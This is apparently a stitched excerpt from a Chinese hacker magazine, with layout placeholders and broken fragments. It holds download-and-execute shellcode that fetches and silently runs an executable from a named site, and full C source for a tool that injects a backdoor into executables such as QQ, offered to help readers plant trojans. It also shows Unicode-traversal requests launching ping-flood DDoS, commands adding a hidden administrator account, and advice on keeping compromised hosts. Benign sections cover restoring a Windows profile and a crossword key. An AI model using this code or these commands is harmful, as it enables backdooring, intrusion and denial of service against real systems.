DWORD GetHash(unsigned char *c){
    DWORD h = 0;
    while(*c){
        h = ((h >> 13) | (h << 19)) + *c++;
    }
    return h;
}
```

```asm
HashFunc:
    xor eax, eax
    lodsb
    cmp al, ah
    je FindFunc
    ror edi, 13
    add edi, eax
    jmp HashFunc

; 示例 hash：
; WinExec            0x0e8afe98
; URLDownloadToFileA 0x702f1a36
; LoadLibraryA       0xec0e4e8e
; ExitProcess        0x73e2d87e
```

文中提醒：`URLDownloadToFileA` 和 `LoadLibraryA` 的后缀 `A` 不能省略，因 Win32 API 常以 ANSI/UNICODE 宏区分。

```c
#ifdef UNICODE
#define LoadLibrary LoadLibraryW
#else
#define LoadLibrary LoadLibraryA
#endif
```

建议先用 Depends 工具（VC6 自带）查看函数名后再计算 Hash。

### 5. 查找函数名

```asm
FindFunc:
    cmp edi, [esp + 20]
    jnz LoopFindFunc
    mov ebx, [edx + 36]
    add ebx, ebp
    mov cx, [ebx + 2 * ecx]
    mov ebx, [edx + 28]
    add ebx, ebp
    mov eax, [ebx + 4 * ecx]
    add eax, ebp
    jmp Done
```

### 6. 下载部分

```asm
xor ecx, ecx
mov cx, 0x6e6f
push ecx
push 0x6d6f7275
push esp
call eax

; LoadLibraryA("urlmon")
; eax 返回 urlmon.dll 基地址

Download:
push eax
push 0x702f1a36
call FindFuncAddress

; 查找 URLDownloadToFileA
```

呵呵，下载的主体部分，简单吧？记得一定先把 urlmon.dll 库载入进程，然后才能调用 URLDownloadToFileA()。

### 7. 执行并关闭

```asm
Exec:
push ebx
push 0x0e8afe98
call FindFuncAddress

; WinExec()

push ecx
push edi
call eax

; WinExec(szFilename, SW_HIDE)

push ebx
push 0x73e2d87e
call FindFuncAddress
call eax

; ExitProcess()
```

看，是不是比 CreateProcess 简单多了（不过如果要求灵活性和更多功能，还是推荐用 CreateProcess）。大家注意到我们后面调用了一个 ExitProcess() 函数，顾名思义，就是退出程序的意思。

为什么要多加这么一个函数呢？肯定不是吃饱了撑着。因为在远程溢出利用过程中，如果不调用这个函数，当退出 Shell 的时候，也许会导致一个错误发生……所以必须把异常结构恢复，调用 ExitProcess() 就可以避免执行程序循环执行。

```asm
Data:
  call Start
  db "backdoor.exe",0x00
  db "http://www.nohack.cn/shellcode.exe", 0x00
```

下载地址这些就随你发挥了。当然，我们可以不仅限于 HTTP 下载，改个 FTP 地址试试，也是可以的哦。

> 【文章中提到的代码在光盘中有收录】

《黑客语录》本次介绍了利用 ShellCode 实现 HTTP/FTP 下载文件功能……将会在下期推出，感兴趣的读者一定要继续关注哦！

# 黑编互动之论坛见闻吧

# 网刊互动

任我小行

话说天下形势，分久必合，合久必分，最近黑帮总部（黑客手册论坛）连续发布了几道金牌，发生了几件江湖儿女关注之大事……

又到了国庆，天安门广场上应该也会摆放很漂亮的花台。俗话说得好“百花齐放才是春”嘛，虽然秋快来临，但北京的秋相比起来春要漂亮得多了！当然，对技术的探讨也需要“百花齐放”、“百家之言”，一味地迷信作者、权威，是不会让我们的思路和技术有所拓展的。本期的文章大胆地提出了自己的观点，有针对网络上发表的，也有针对非安全文章的，都提出了很多不错的建议和实现思路，而这样积极的质疑精神就更值得我们鼓励了。

## 也谈“把QQ2005做成后门之编程实现”

古开元（四川大学信息安全研究所）

前不久，在华夏黑客同盟看到了一篇名为《把QQ2005做成后门之编程实现》（以下简称《把》文）的文章，笔者饶有兴趣地学习了一番，却略感失望（声明：本人对该文作者怀有十二分的敬意，并无诋毁之意，而写本文的目的则纯粹是为了讨论学术，百花归百花，共同进步……）。因为那篇文章介绍的方法虽然用编程实现了 QQ2005 的后门程序，但几乎没有任何通用性可言。为什么这样说呢？因为如果把 QQ 版本换成 2004 版或其他木子版、珊瑚版等；又如果受害主机与该文作者主机的操作系统不同（因为要定位 URLDownloadToFile() 等与操作系统版本相关函数的地址），都不能做到一劳永逸。还有，如果也想在 MSN、ICQ 或其他应用程序，比如记事本、IE 等安装同样的后门，那又如何呢？

“黑客”代表的文化深意是在计算机领域追求技术完美与艺术的最高境界（哈哈，乱吹的哈，我是一小菜鸟，其中深刻的含义，非我所能领悟……），一个成功而且通用的后门，个人认为不应该是这样的。如果按照《把》文作者那样的方法，个人认为并没有体现出比用工具来做同样的事的优越性来。如果是这样的话，那我宁愿用 OllyDbg 或其他工具来做同样的事情，直观方便，也不需要考虑诸多的问题。

- 搜索 exe 文件的最后一个“区块（section）”。
- 在这个节的最后搜索足够大小空间的 00 块，它们在后面被用来存放我们的后门执行代码。
- 然后搜索可执行文件入口点前面 N 个字节（N 值按具体情况来定）。
- 把这 N 个字节保存下来，待到我们的执行代码最后用以恢复程序的执行流。
- 用 `JMP aabbccdd` 跳转指令覆盖入口处的前 5 个字节，而 `aabbccdd` 为我们执行代码的开始地址。
- 最后产生的执行代码如下：`Nop + 静态Code + WinExec地址 + 被保存的入口前N个字节 + 回跳地址`。
- 把这构造好的执行代码粘贴到第二步中的相关位置。

OK，那么为编程实现的话，思路又该如何呢？我先把大致的流程总结如下：

我在这里并不是说要搞那么复杂做个很牛的后门，还是开 CMD 窗口，大家知道原理就可以了，自己来定制了。记得《利用OllyDbg修改程序执行流》里我们用汇编写的开 CMD 窗口吗？因为现在要以二进制的形式插入可执行文件，所以就要先把汇编换成二进制代码。这个好办，用 VC 调试切换到 Disassembly 窗口对比，或用 OllyDbg（图1），第2列就是我们要的，抄下来，保存到一个数组里。我还加入了额外的 nop（即 `\x90`），这样可以保证我们在跳到这里时不会跳到 00 区里（心理作用哈），如下。

```c
char Code[]={
  "\x90\x90\x90\x90" // Nop for padding
  "\x90\x90\x90\x90"
  "\x90\x90\x90\x90"
  "\x90\x90\x90\x90"
};
```

当然具体的思路，和原文作者应该是一样的，都是基于把“利用 OllyDbg 手动修改可执行文件”变为“程序实现”。只不过在实现上却走了不同路径。大家想想，在宿主可执行文件后的空白区域里插入一段实现后门功能的代码，即是给可执行文件打补丁嘛。啊呵，说到这，很多 Cracker 开始笑了。文件补丁型技术，相信很多读者都了解原理，但具体怎么做，未必知道。如果都知道了，那我还混什么，呵呵。赶快打起精神，我们一起学习写一个“文件补丁”，来给目标宿主程序装后门。这里涉及到的知识包括 Windows PE 文件格式和内存文件映射技术的知识，如果你确信你很熟悉这些，那么恭喜你，一起进步吧！

> （1）在可执行文件的最后找到一块空白的 00 区块，然后写入开 CMD 窗口的一段汇编代码；  
> （2）找到可执行文件入口点地址，保存前面 5 字节，然后修改入口为地址：`Jmp aabbccdd`；  
> （3）把第2步中保存好的那 5 字节代码附在开 CMD 窗口代码后，然后回跳：`Jmp 11223344`，其中 11223344 是第2步中 `Jmp aabbccdd` 指令后的地址。

# 10月 不同观点

## 给程序剥壳

```c
"\x90\x90\x90\x90"
"\x90\x90"
"\x55"          // push ebp
"\x8B\xEC"      // mov ebp, esp
"\x51"          // push ecx
"\xC7\x45\xFC\x63\x6D\x64\x00" // mov [ebp-4], "cmd"
"\x6A\x05"      // push SW_SHOW
"\x8D\x45\xFC"  // lea eax, [ebp-4]
"\x50"          // push eax
"\xB8\xCC\xCC\xCC\xCC" // mov eax, kernel32::WinExec
"\xFF\xD0"      // call eax
"\x8B\xE5"      // mov esp, ebp
"\x5D"          // pop ebp
```


说明：这里的 Code[] 数组是后面用来粘贴到宿主可执行文件的空白区域，通常我们把这段放我们代码的区域叫做 EggShell。

根据上面的分析，先预先定义一个数组来存放跳转到执行代码的指令：

```c
char JumpToEgg[] = "\xE9\xaa\xaa\xaa\xaa";
```

保存的指令字节数组，这个根据需要决定，所以用动态内存分配：

```c
char* pSavedEntry = new char[OFFSET];
```

还有一个数组用来存放回跳到入口执行代码的指令：

```c
char JumpToEntryPoint[] =
    "\xB8"
    "\xbb\xbb\xbb\xbb" // JUMP BACK address entrypoint+5
    "\xFF\xE0";
```

打开目标可执行文件：

```c
HANDLE hFile = CreateFile(argv[1], GENERIC_WRITE | GENERIC_READ, 0, NULL,
    OPEN_EXISTING, FILE_ATTRIBUTE_ARCHIVE, NULL);
```

打开文件内存映射对象：

```c
HANDLE hFileMap = CreateFileMapping(hFile, NULL,
    PAGE_READWRITE, 0, 0, NULL);
LPBYTE lpbMapFile = (LPBYTE)MapViewOfFile(hFileMap,
    FILE_MAP_ALL_ACCESS, 0, 0, 0);
```

大家用 VC 调试看，会发现这里的 lpbMapFile 指向前两个字节就是 “MZ”，熟悉 Windows PE 文件格式的同学们知道下面应该发生什么了吧：

```c
PIMAGE_DOS_HEADER pDosHeader = (PIMAGE_DOS_HEADER)lpbMapFile;
PIMAGE_FILE_HEADER pFileHeader = (PIMAGE_FILE_HEADER)
    (lpbMapFile + pDosHeader->e_lfanew + 4);
PIMAGE_OPTIONAL_HEADER pOptionalHeader =
    (PIMAGE_OPTIONAL_HEADER)((BYTE*)pFileHeader + sizeof(IMAGE_FILE_HEADER));
```

大家都知道，大部分可执行文件都有如图 2 所示的区段分布。而且有一点是肯定的，“.text” 区块肯定是紧跟着块表（英文名 section，也可以称作节表）排在其他区块之前（除非程序是用 Borland C++ 编译，这里会是 “code”，一般默认情况下是 .text）。

为了找寻程序入口点地址，所以我们要进行下面的操作：

```c
PIMAGE_SECTION_HEADER pSection;
int pos = FindData(".text", 5, 1024, (char*)lpbMapFile, 1);
pos -= 4;
pSection = (PIMAGE_SECTION_HEADER)(lpbMapFile + pos);
DWORD dwEntryPoint = pOptionalHeader->AddressOfEntryPoint;
```

AddressOfEntryPoint：程序开始执行的入口地址（RVA）  
DWORD dwFileEntryPoint = dwEntryPoint + (pSection->PointerToRawData) - (pSection->VirtualAddress); // 文件入口点地址

上面的 FindData() 函数实现的功能是：从 lpbMapFile 所指的地址开始，从第一个字符开始查找，查找范围为 1024 个字节，如果找到和 “.text” 相符的字节，则返回最后匹配字节到 lpbMapFile 的偏移。实现如下：

```c
int FindData(char text[], int textlen, int datalen, char *data, int begin)
{
    int a = 0;
    int i = begin;
    for (; i <= datalen; i++)
    {
        if (data[i] == text[a])
        {
            a++;
            if (a == textlen)
            {
                return i;
            }
        }
        else
        {
            a = 0;
        }
    }
    return 0;
}
```

因为要确保在任何 Windows 系统下的通用性，所以要动态定位 WinExec() 函数的地址，并拷贝到开始定义的 Code[] 结构体里。下面这段代码就可以实现：

```c
hModule = LoadLibrary("kernel32.dll");
DWORD dwWinExec = (u_long)GetProcAddress(hModule, "WinExec");
for (i = 0; i < sizeof(u_long); i++)
    Code[48 + i] = ((u_long)dwWinExec >> (i * 8)) & 255;
```

下面在可执行文件裁壳后的空白区域找一块可以存放我们执行代码的 00 块，所以要定位壳后区块的位置，并从此区块开始查找一块足够大的 00 块，实现如下：

```c
// 获得区块的数目
int nSectionNumber = pFileHeader->NumberOfSections;
// 动态分配区块数组
DWORD* sec = new DWORD[nSectionNumber];
```

```c
int i;
for (i = 0; i < nSectionNumber; i++)
{
    // 每个区块的首地址
    pSection = (PIMAGE_SECTION_HEADER)(lpbMapFile + pos) + i;
    sec[i] = pSection->PointerToRawData; // 该块在磁盘文件中对应的偏移
}

// 得到最后的区块
pSection = ((PIMAGE_SECTION_HEADER)(lpbMapFile + pos)
    + MaxSec(sec, nSectionNumber));

// 从最后的区块搜索可执行代码的00块
DWORD dwCodePos = FindData(Find, 69, GetFileSize(hFile, NULL),
    (char*)lpbMapFile, pSection->PointerToRawData);
```

这里的 MaxSec() 函数是返回输入数组里所有元素里值最大的那个元素索引，而最后的区块偏移值肯定最大。dwCodePos 的值即是文件内存映射文件中执行代码距离文件头的偏移。

把代码拷贝到指定的文件偏移处：

```c
char *EggCode = NULL;
EggCode = (char*)malloc(65 + OFFSET);
for (i = 0; i < 57; i++)
{
    EggCode[i] = Code[i];
}

for (i = 0; i < OFFSET; i++)
{
    EggCode[57 + i] = pSavedEntry[i];
}

for (i = 0; i < 8; i++)
{
    EggCode[57 + i + OFFSET] = JumpToEntryPoint[i];
}

for (i = 0; i < 57 + 8 + OFFSET; i++)
{
    lpbMapFile[dwCodePos + i] = EggCode[i];
}
```

再下来计算原可执行文件程序入口点到偏移处的跳转长度：

```c
// 计算跳转长度
DWORD jmp2 = dwCodePos - (pSection->PointerToRawData)
    + (pSection->VirtualAddress) - dwEntryPoint;

for (i = 0; i < sizeof(u_long); i++)
    JumpToEgg[i + 1] = ((u_long)jmp2 >> (i * 8) & 255);

// 改盖文件入口点
for (i = 0; i < 5; i++)
    lpbMapFile[dwFileEntryPoint + i] = JumpToEgg[i];
```

最后，记得把打了“补丁”后的文件映射视图写入磁盘和一些善后工作：

```c
FlushViewOfFile(lpbMapFile, 0);
UnmapViewOfFile(lpbMapFile);
CloseHandle(hFileMap);
SetFilePointer(hFile, GetFileSize(hFile, NULL), NULL, FILE_BEGIN);
SetEndOfFile(hFile);
CloseHandle(hFile);
```

到此，这个文件型补丁后门产生器就做好了。怎么用？很简单，假设生成的文件名字为 Patch.exe，则用法如下：

`Patch.exe FilePathName`

比如：我的 QQ 装在 `F:\Program Files\Tencent\` 下，在 CMD 中使用如下（图3）：


其中，TestQQ.exe 是我复制了原 QQ.exe 的一份拷贝。运行 TestQQ.exe，得到的结果如图4所示。


那我再试一下是否适用于其他程序。用以前为研究溢出而安装的 zinf 播放器，运行结果成功。要说明的是，有很多软件加壳了，比如我用的 flashfxp 加了 ASPack 壳，这种程序打补丁会导致失败，要先去壳；还有一部分程序，像 Windows 自带的 notepad.exe 程序，如果用我的程序的默认设置，会导致异常。为什么呢？我们用 OllyDbg 反汇编 notepad.exe（图5）。

```asm
6A 70            // 2 bytes
68 88180000      // 5 bytes
```


这里具体是什么不再赘述。数数看，总共（2+5）个字节，就是说应该保存 7 个字节，看看前面我列出流程的第三步和第四步里的 N，就是这个了。

# 10月 不同观点：黑客与编程

这也正是我们上面 `char* pSavedEntry = new char[OFFSET];` 这句话的作用了。这里的 OFFSET 我在我的程序里默认等于 5，因为起初是针对 QQ 来写的，而 notepad.exe 需要 7 个字节来存放保存的指令，所以导致发生错误，所以你要这样用：

```bash
Patch.exe notepad.exe 7
```

如果你要使这个后门补丁程序运用于其他程序，就得自己来确定不同程序的 OFFSET。因为有的程序也许 OFFSET 为 6，或 7，或其他，这很难确定，但可以像上面我用 OllyDbg 来反汇编一下（这里都不用分析，只需察看所需保存的偏移字节就可以了），记下所有通用程序的 OFFSET，保存到一个文本也好，固定到补丁程序里的一个数组也好，让程序自动来判断，这个我就不多写了，作为练习给大家吧 ^^。

> （以上 QQ 后门补丁程序在 Win2K/XP/2K3 大部分 QQ 版本运行通过）  
> 【Patch 源代码和编译好的软件在光盘中有提供】

本文还没有实现下载上传、绑定端口或反连端口等“守后门”功能，因为这不是本文的重点。但通过本文，希望带给大家一种新的思路，为大家今后种植后门木马添加多一种选择，或者还可以想得更广一点，在溢出利用的 ShellCode 里，是不是也能开拓一下新思维呢？如果大家还有什么更好的建议，欢迎到黑客手册论坛指教。

## 真的只能技术？

好像听到很多的人都喜欢这个，有一种很专业的技术味道，但是是不是真的这样呢？想象力固然重要，但是如果不能在现实中使用，那也只是失败的想象力。

譬如上期的“国外美味肉鸡的另类吃法”中的一点小瑕疵：他入侵了人家的机器之后，为了将肉鸡变成自己训用，对肉鸡的漏洞做了很多的修补，但是有个原则却被他忽视了。肉鸡永远不能是你一个人用的，因为管理员也一直在注视这个机器，如果机器本身的服务不能用了，你觉得管理员是什么反应？作者在这里就很干脆地把肉鸡的 SQL 密码改了，这样一来远程使用该 SQL 数据库时肯定要出现问题。管理员发现数据库的密码被更改，第一反应会是什么？


如果说上面的问题都是些小问题的话，那么另外两个作者的想法就有点违背常理了。有篇文章是利用 SHDOCLC.DLL 打造另类的网页木马，他的思想是很另类，但是做法就有点行不通了。作者提想当别人访问站点，出现 404 等错误时，打开自己设置好的网页木马。如果这个 404 是某个互联网站点上的页面并且被作者控制的话，这的确是一个好方法，但是这些页面都是系统本身的，甚至受系统保护的。

有些文章写得很不错，但是也有其他的思路实现。如今大家都很关注如何防范网页木马，我想如果你只是上网看网页、聊 QQ 的话，完全可以用 User 权限打开 IE。具体方法是给 IE 建立快捷方式，然后在属性里选择“以其他用户运行”，如图3。再次运行 IE 的时候就可以选择启动 IE 的用户了。这样一切依赖服务和启动方式的木马就全部失效了，还可以预防新的木马。

的文章里已经做出来了，大家可以看一下，在这里就不多说了。虽然说了以上个人的一些观点，但《非安全》的文章都是很优秀的，让我学到了不少东西，在此向编辑作者们致敬。大家要多多支持《非安全》，有时间去论坛讨论啊！

> 网络编辑点评：剑心说的意见还是很中肯的。如果从保护肉鸡的角度上讲，《国外美味肉鸡的另类吃法》里的有些做法的确是过了，有极端之嫌。但要是换另外一个角度上看，读者也可以从文章中学到一些小技巧，比如如何更改 SQL 密码、如何替换系统文件、如何克隆账号等等。明辨是非，汲取精华为我所用才是正道，不必要一味批评。  
> 但从写作的角度上来讲，原文作者的题目立意的确是不好的，有点单纯把这样一个题目组合一些技术凑成一篇文章的味道。  
> 不过，《利用 SHDOCLO.DLL 打造系统的网页木马》这篇文章，我不太同意剑心说法。得到了肉鸡的系统权限，再做网页木马，其目的不一定是针对这台肉鸡的，更多的是针对客户端的吧？原文作者费欠心思，做了一个隐藏的网页木马，思路是不错。不过剑心提出未修改 SHDOCLO.DLL 时会有一个大的文件保护框，这是个问题，我想是需要原文作者或大家共同努力完善的一个东西了。  
> 还有一篇文章《利用 KV 启动木马》，作者的思路也是不错的。如果这个用法用在“长线”控制肉鸡是一个不错的思路，随着杀毒软件的升级，查杀网页木马会更快。但该文也提出了一个动态更新后门的思路：如果我们的后门放在 Web 上，肉鸡会时常去互联网执行，我们只要更新 Web 上的后门就可以了，这也不是肉鸡的一大快事吗？  
> 剑心写的文章有过不少，里边的技术都很扎实，不花哨，实用性也高。学习技术不拘泥于形式，我想这个也是他和大家都需要具备的吧？

注：按本文进行时，可能会存在一些潜在风险，因此，对本文有任何质疑的话，请不要随意尝试。任何后果与杂志和本人无关。

# How to restore a user profile in Windows 2000

# 如何在 Windows 2000 中恢复用户配置文件

Requirements to restore a user profile: The `Documents and Settings\username` profile folder must still exist, and you must have the Full Control permission for this folder. If you do not have the correct permission for your user profile folder, you (or someone else) must log on to the computer as an administrator and restore the required level of permission to your user profile.

> 恢复用户配置文件的要求：确保 `Documents and Settings\username` 配置文件夹仍然存在，而且您必须拥有该文件夹的“完全控制”权限。如果您没有该权限，那么你（或其他人）必须使用 administrator 身份登录计算机，并给予你所必需的访问权限。

- Log on to the computer as an administrator.
- Copy all of the documents from your current My Documents folder to the My Documents folder of the profile that you are restoring.
- To retain the Internet favorites links, copy all of the Internet shortcut files from your current Favorites folder to the Favorites folder of the user profile that you are restoring.

NOTE: Do not copy Desktop.ini file.

> 从当前配置文件夹中将文档复制到相应的用户配置文件夹中：  
> 1. 使用 administrator 登录。  
> 2. 将 My Documents 文件夹中的所有文档复制到您正在恢复的 My Documents 文件夹中。  
> 3. 为保留收藏夹中的链接，将 Favorites 目录下的所有链接复制到你要恢复的用户配置文件夹的 Favorites 文件夹中。  
> 注意：不要复制 Desktop.ini 文件。

- Grant Full Control Permission for the User Profile Folder
  1. Right-click your old user profile folder, and then click Properties. By default, this folder is `%SystemDrive%\Documents and Settings\username`.
  2. On the Security tab, click your user profile in the Name list, and then click to select Allow for the Full Control permission.
  3. Click OK to close the dialog box.

> 给用户配置文件夹“完全控制”权限：  
> 1. 右键原来的用户配置文件夹，选择“属性”。默认位置是 `%SystemDrive%\Documents and Settings\username`。  
> 2. 在“安全”选项卡里，选择你的用户名后勾选“允许完全控制”权限。  
> 3. 点击“确定”关闭对话框。

- Edit the User Profile Registry Key
  1. Log on to the computer with the user profile that you want to restore.
  2. Click Start, and then click Run.
  3. Type `regedit`, and then click OK.
  4. In Registry Editor, navigate to the following registry key:  
     `HKEY_LOCAL_MACHINE\Software\Microsoft\Windows NT\CurrentVersion\ProfileList`
  5. Locate your user profile folder.
  6. After you locate the subkey folder for your user profile, double-click the `ProfileImagePath` value.
  7. In the Value data box, change the path so that it points to the profile folder that you are restoring, and then click OK.
  8. Quit Registry Editor.

# 29号信箱

（读者来信与编辑回复内容，三栏排版）

# Q&A

（问答栏目正文，左栏）

（问答栏目正文，右栏）

```bash
net user 帐号 密码 /add
net localgroup administrators 帐号 /add
```

# 9月黑客填字游戏

## 答案详解

上期给大家的黑客填字游戏大家玩得怎么样，不知道你填对了多少？在答案公布后，相信有的朋友对个别答案还是感到很陌生，这里我们再来详细解释一下吧！

填字游戏答案网格（含横向与纵向答案，如 `ISO`、`OPEN`、`NETBIOS`、`GINA`、`ARP`、`COM`、`NTLM`、`RFC` 等）

**题目3：开放式系统互连协议——OSI**

关于 OSI 有两个明确的标志：  
1. OSI 参考模型是 ISO（国际标准化组织）所制定的，是 Open System Interconnection 的缩写，完整的意思为开放式系统互连协议。此模型作为网络通信的概念性标准框架，使通信在不同制造商的设备和应用软件所形成的网络上进行成为可能；  
2. OSI 模型一共有 7 层，每层可以完成一个任务。

其次，还有几个重要的概念：  
- A：总是分层的，每一层分别负责不同的通信功能；  
- B：数据发送时是自上而下，层层加码；数据接收时是自下而上，层层解码；  
- C：逻辑上通信是在同级完成的。

**题目4：系统安全标识符——SID**

Windows 操作系统中的所有账户都分配了一个 SID（安全标识，Security ID）。这个 ID 是由全局唯一的 48 位数值来处理这些对象的。服务是根据 SID，而不是与 SID 相关的名称，来识别服务器上的所有账户。

**题目8：基于 RSA 公钥加密体系的邮件加密软件——PGP**

这个软件可以对邮件进行保密，以防止非授权者阅读；它还能对邮件加上数字签名，从而使收信人可以确认邮件发送者，并能简单地保证邮件没有被篡改。

**题目10：智能化识别和验证——GINA**

GINA 全称为“Graphical Identification and Authentication”——图形化识别和验证。它是几个动态链接库文件，装载后由 Winlogon.exe 调用，为其提供能够对用户名进行识别和验证的函数。

**题目40：IP Spoof**

IP 欺骗是一种难度比较高的攻击技术，首先你必须对 IP 和 TCP 协议都有深入了解，再就是需有一定编程功底。其主要思想就是利用 IP 协议的缺陷，冒充被信任主机的 IP 与目标机进行连接，达到入侵目的。

**题目50：地址解析协议——ARP**

在局域网里，需要先清楚对方的 MAC 地址才能进行通信。为了得到这个 MAC 地址就需要使用 ARP，ARP 协议就是实现地址解析功能的。

**题目52：组件对象模型——COM 技术**

简单地说，COM 是一种跨应用和语言共享二进制代码的方法，这种代码可以在不同的程序和不同的平台间复用。

**题目12：网络地址转换服务——NAT**

由于 IP 地址资源持续紧张，为了解决这个问题，NAT（Network Address Translation，网络地址转换）应运而生。NAT 通过地址转换的方式，使企业可以使用较少的互联网有效 IP 地址，就能获得互联网接入能力。

**题目20：服务信息模块协议——SMB**

微软于 1980 年开发了 SMB（Server Message Block，服务消息块）通信协议，并通过 SMB 通信协议，使网络上各台主机之间能够共享文件、打印机等资源。

**题目21：邪恶八进制信息安全团队——EST**

邪恶八进制信息安全团队（EvilOctal Security Team）是中国民间一个倡导并从事前瞻性信息安全技术研究的互联网资讯站点。

**题目39：“请求注解”——RFC**

RFC（Request For Comments）意即“请求注解”，包含了关于 Internet 的几乎所有重要文字资料。许多网络相关国际标准最早都来源于 RFC 文档。

**题目42：NTLM**

NTLM 协议是 Windows NT 4.0 操作系统中网络验证的默认协议，它在 Windows 2000 中仍作为低级客户和服务器兼容性而保留。

> 【责任编辑】说实话，小编在做这个游戏时花了不少时间，也查了不少资料，自己感觉还是学到了不少基础知识。

# 六日混沌，七日创世——写在前面

有时我真的怀疑，是不是为了遇到 NoHack 这颗闪亮在网络界的星辰，天地才从混沌中睁开它的眼睛。让我们这些小人儿，在唇齿开合间交流 hack 的内涵，在眼眸的对视中透析真理的本意，在思想的指引下步入更高远的境界。无数的人们，无数的眼睛看着 NoHack 从成立走到现在，散落一地的欢笑与希望。而我的眼睛是纯白的质地，轻易地记载住 NoHack 的七日创世。

**第一日——思想。光，出现了。**  
上帝说：“要有光。”于是，就有了光。（《圣经·创世纪》）  
开放的思想是 NoHack 里最深邃的内涵，在天地生成一片的创世之初，它像是撕裂天与地的光，从无限的荒芜中流露出温暖的本意，定型了 NoHack 的大内世界。这光刺破黑暗，让我们的思想从禁锢中解放，延伸直至无穷的远。

**第二日——自由。天地分开。**  
上帝说：“要有空气，要有云；要有风。”（《圣经·创世纪》）  
就像风、水、云、空气充斥着整个星球一样，自由是 NoHack 里最清新的空气，最凉爽的风。这里提倡平等，提倡尊重。在这里，自由就是无所不在的风或者空气，随着天气的变化、季节的迁移，带来温热又清新的暖流。

**第三日——成员。花草树木郁郁葱葱。**  
上帝说：“天下的水聚集一起，陆地要露出来，地上要有结种子的植物和能开花的树木。”（《圣经·创世纪》）  
该怎么感谢支持 NoHack 的成员们。他们让这浩茫的网络大海露出蜿蜒的海岸线，让 NoHack 这片土地上开满各种好看的花。许多站点前来申请链接，就像许多散落的岛屿连接成宽阔的大陆。许多会员为我们提出意见、发布文章，就像花草树木充实整个大地。

**第四日——版主。日月星辰各司其职。**  
上帝说：“天上要有光体，可以分出昼夜、月份和季节。”（《圣经·创世纪》）  
天上的星辰是我们生活的依赖，它们虽然看上去高高在上地遥瞰这片星球，但其实它们的诞生是为了维持生存的秩序，为了服务在这里生活的人。NoHack 的版主们，都是星星般闪耀的人，他们用可以发光的思想驱散了黑暗里的惊恐，他们用自身散发的光芒服务了 NoHack 里所有定居的人们。

**第五日——技术。水中游鱼，空中飞鸟。**  
上帝说：“水中要有生命，空中要有鸟雀。”  
水因为有生命的存在而神圣，天空因为飞鸟的展翅而丰富。技术是 NoHack 里最重要的环线，它使得这里神圣，使得这里丰富，使得更多的人愿意来到这里学习技术、交流心得。这里也因更多人的出现而越发富有内涵。

**第六日——致谢。百兽、昆虫和人。**  
第六天，留给我。感谢 NoHack 的诞生，感谢使 NoHack 诞生的人，感谢所有成员的积极配合和大力支持。感谢一切让这里看起来美好的事物。

**然后。第七日的阳光晒到我的身上，快乐使我流淌开来。**  
圣经中说，第七日上帝休息；但是，NoHack 还在继续。思想、自由、成员、版主、技术组合到一起——在这个世界完结之后，才会有完美的天空，覆盖网络的迷茫。

NoHack 论坛站务管理版主 燕明香

> 编者按：Ping 是微软自带的一个测试程序，用“ping xxx.xxx.xxx.xxx”检测计算机的连接状况……

# 他在用什么 Ping 我

（左栏正文）表现得淋漓尽致，QQ、游戏账号、银行账户、邮箱等等，凡是能被盗的都有可能被人盯上……本文将阐述有关 Ping 的知识并分析可能发生 Ping 的工具。

## 一、Ping 的来源

（左栏正文）大家都知道，微软系统给管理员自带了一个 Ping 程序……如果 Ping 运行正确，你大体上就可以排除网络访问、网卡、Modem 输入输出线路、电缆和路由器等故障。

（左栏续）但由于可以自定义所发数据报文大小并高速发送，Ping 也被某些别有用心的人作为 DDoS 工具……导致目标网络速度变慢，达到攻击目的。

## 二、Ping 的日志分析

下面我用天网防火墙上的一段日志记录来说明一个观点（如图 1）……

（日志片段）  
[01:17:42] 211.5.33.1 … 尝试用 Ping 来探测本机…  
[01:17:47] 218.55.6.3 … 尝试用 Ping 来探测本机…  
[01:17:51] 10.5.3.1 … 尝试用 Ping 来探测本机…

> 图1 天网防火墙日志

（中栏正文）相信大部分人的分析结果是：出现这些日志说明可能有三个人用 Ping 命令探测你是否开机并连接网络……防火墙会把这些发来的数据拦截下来并记录在日志上报警。

## 三、危险的死亡之 Ping

（中栏正文）一些初级“黑客”会用 x-scan、superscan 探测主机，然后会用到 Ping……下面来看比较经典的 Ping 工具。

（右栏正文）AhBomb 是 bigball1 写的一款更强大的攻击工具……通过 Unicode 漏洞调用 Windows 服务命令解释器执行命令。

```text
Get /scripts/..%c1%1c../winnt/system32/cmd.exe?/c ...
ping -l 65000 -n 500 200.200.200.200
```

> 解释如下：
- ping：发送测试数据包检测网络
- -l 65000：发送包大小 65000 字节
- -n 500：发送 500 个 ECHO 请求
- 200.200.200.200：目标 IP

（右栏正文）现在看清楚了吧……由于 ping 命令对权限要求低且存在 Unicode 漏洞的机器较多，才会导致大量数据涌向一处。

```text
Get /scripts/..%%35c..%%35cwinnt/system32/cmd.exe?/c ...
ping 192.168.0.1 -t -i 255
```

> 解释如下：
- ping：发送测试数据包检测网络
- -t：不停发送 ECHO 数据包
- -i 255：TTL 设为 255
- 192.168.0.1：目标

## 11月

## Q版黑客黑客手册

仔细看看它的参数和蜗牛炸弹的不同，具体体现在它并没有发送大数据包，而仅仅是发送普通大小的包，因为很多网络设备会过滤大包，标准格式的反而才能真正被发送到目标。

> **小提示**
>
> TTL：生存时间，指定数据报被路由器丢弃之前允许通过的网段数量。TTL 是由发送主机设置的，以防止数据包不断在 IP 互联网络上永不终止地循环。转发 IP 数据包时，要求路由器至少将 TTL 减小 1。

此后各种类似的攻击软件也不断产生了，比如 evil ping、kn-Ping 等等，还有可以伪装和改变源 IP 地址的 Ping 攻击手段，其实真正技术也就是这些。

## 四、Ping 的新进展

目前，大 Ping 包基本上没有很大的攻击效果（分布式攻击除外）。如果一定要使用 Ping 包去攻击别的主机，除非是利用 TCP/IP 协议其他特性或者网络拓扑结构的缺陷来放大攻击力度（即正反馈）。我来分析一下，正常情况下，Ping 的流程如图 2 所示。

这种情况下，由于主机 A 只需要不断发送 Ping 报文而不需要处理返回的 Echo Reply，所以攻击力度成倍增加，同时实际上主机 B 和主机 C 都是被攻击目标，而不会留下自己的痕迹，是一种隐蔽的一石二鸟攻击方法。上面的方式用 SOCK_RAW 伪装 IP 就可以轻松实现。不过即使放大了两倍，对于比较弱的操作系统和较大的带宽，也不见得有多大效果。不好吧，还是让敌人给我们放大好了。

